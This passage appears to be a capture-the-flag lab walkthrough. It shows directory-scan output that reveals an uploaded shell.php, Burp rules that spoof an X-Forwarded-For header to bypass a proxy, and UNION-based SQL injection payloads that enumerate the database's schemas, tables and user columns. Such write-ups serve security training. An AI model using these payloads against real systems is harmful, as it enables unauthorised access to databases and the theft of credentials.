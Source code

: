200      GET       63l     2733w    17128c http://10.129.68.43/license.txt
301      GET        2l       10w      151c http://10.129.68.43/uploads => http://10.129.68.43/uploads/
200      GET        1l        1w        6c http://10.129.68.43/uploads/shell.php
[####################] - 31s   189288/189288  0s      found:39      errors:0      
[####################] - 20s    37792/37792   1860/s  http://10.129.68.43/ 
[####################] - 20s    37792/37792   1870/s  http://10.129.68.43/images/ 
[####################] - 20s    37792/37792   1857/s  http://10.129.68.43/assets/ 
[####################] - 20s    37792/37792   1850/s  http://10.129.68.43/Images/ 
[####################] - 14s    37792/37792   2746/s  http://10.129.68.43/uploads/  

-----------------------------------------------------------------------------------------------------------------

Using customer header in Burp we can use the same header for moving around behind the proxy

Header name: X-Forwarded-For
Hard-coded Value: 192.168.4.28
Proxy settings: Created session handling rule
	Add -> Invoke Burp Extension -> Add Custom Header -> Ok
 	Scope -> Tools Scope -> Check boxes
  	Scope -> URL Scope -> Include all URLs
![image](https://github.com/user-attachments/assets/119875e0-a527-4c3c-8db3-bf6732c215f3)

' UNION select 1,@@version,3,4,5,6-- -

![image](https://github.com/user-attachments/assets/47119120-9115-494c-b3e3-05ead2e24c1c)

' UNION select 1,user(),3,4,5,6-- -

![image](https://github.com/user-attachments/assets/1e918d8e-080f-4deb-b100-b63bfecdeda0)

' UNION select 1,schema_name,3,4,5,6 from INFORMATION_SCHEMA.SCHEMATA-- -

![image](https://github.com/user-attachments/assets/b8cabf98-9d33-46f7-8e27-2b49c8d80d6f)

' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4,5,6 from INFORMATION_SCHEMA.TABLES where table_schema='warehouse'-- -

![image](https://github.com/user-attachments/assets/189b4de4-2fa0-49ec-aad7-7603d6db24a6)

' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4,5,6 from INFORMATION_SCHEMA.TABLES where table_schema='mysql'-- -

![image](https://github.com/user-attachments/assets/876c880a-ba83-4aa1-8608-064515cfd148)
![image](https://github.com/user-attachments/assets/958291f8-4282-48a5-acde-734a60fae877)
![image](https://github.com/user-attachments/assets/6dacfba3-d0c4-4363-b0d9-9db873f8ccb5)

' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA,5,6 from INFORMATION_SCHEMA.COLUMNS where table_name='user'-- -

![image](https://github.com/user-attachments/assets/fecab751-3500-4c5d-8f87-68ff2ba08cfc)
![image](https://github.com/user-attachments/assets/d53e6e9e-bbe4-4274-83f9-21fafaf68c9c)
![image](https://github.com/user-attachments/assets/da8e6433-7e3f-4259-a40d-177734081e25)
![image](https://github.com/user-attachments/assets/dbe115b1-bd98-44d6-9531-72465646440d)
